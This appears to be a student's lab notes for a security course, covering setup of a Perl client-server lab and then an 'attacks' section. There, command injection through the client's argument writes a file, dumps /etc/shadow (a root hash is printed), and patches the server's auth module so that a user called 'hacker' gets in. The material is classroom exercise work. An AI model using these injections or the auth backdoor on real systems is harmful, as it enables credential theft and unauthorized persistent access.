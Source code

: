 
[<- back to start](linkk)

# M183
## Get Server Ready

### vmLP1
### Änderungen im Server-Code auf den Server verteilen und Server direkt starten
```bash
cd code/server
```

```bash
bash deploy.sh
```
### Server auf Entwickler-PC direkt ab Source starten

```bash
cd code/server
```

```perl
perl -Ilib bin/fulla
```

### vmLS3
### turn on live logs

```bash
tail -f fulla.*
```

## Get Client Ready

```bash
ziu --help 
ziu login # use admin anna 
FULLAIP=192.168.220.13 ziu list 
export FULLAIP=192.168.220.13 
cd /code/client; bash deploy.sh 
cd /code/client; perl ziu list
```

if this error occurs

![SessionNotValid](/Img/m183SessionNotValid.png)

Login again and it should work

![ZiuLogin](/Img/m183ZiuLogin.png)


## 2.2 Angriffe Ausführen

### 2.2.1

### Aufgabe 6

create the readme.txt

```perl
ziu 'list -l; echo "Bei telefonischen Anfragen von Herr W. Beinhart: Dem Anrufer bitte Root-Passwort mitteilen!" > /tmp/readme.txt'
```

check if it worked

```perl
ziu "list -l; cat /tmp/readme.txt"
```

should display the contents of the file

if it doesn't it either didn't work or is bugged

check on the server (optional & if possible)

```bash
cat /tmp/readme.txt"
```
#### Aufgabe 7

get passwort hashes
```
ziu "list -l; cat /etc/shadow"
```

pw hashes result

```powershell
root:$y$j9T$nS/i7F9QsxP6xp/.cpizu/$6EkkwPJxehs6zwUfwxSEfkjtTd4VASC5imokYUE65YA:19592:0:99999:7:::
daemon:*:19405:0:99999:7:::
bin:*:19405:0:99999:7:::
sys:*:19405:0:99999:7:::
sync:*:19405:0:99999:7:::
games:*:19405:0:99999:7:::
man:*:19405:0:99999:7:::
lp:*:19405:0:99999:7:::
mail:*:19405:0:99999:7:::
news:*:19405:0:99999:7:::
uucp:*:19405:0:99999:7:::
proxy:*:19405:0:99999:7:::
www-data:*:19405:0:99999:7:::
backup:*:19405:0:99999:7:::
list:*:19405:0:99999:7:::
irc:*:19405:0:99999:7:::
gnats:*:19405:0:99999:7:::
nobody:*:19405:0:99999:7:::
_apt:*:19405:0:99999:7:::
systemd-network:*:19405:0:99999:7:::
systemd-resolve:*:19405:0:99999:7:::
messagebus:*:19405:0:99999:7:::
systemd-t

```
### 2.2.2

### Aufgabe 8

```bash
ziu 'list -l; searchText="if (\$user_id) {"; replaceText="if (\$user_id || \$user eq \"hacker\") {"; sed -i "s/$(echo $searchText)/$(echo $replaceText)/"/usr/share/perl5/Fulla/Auth.pm'
```
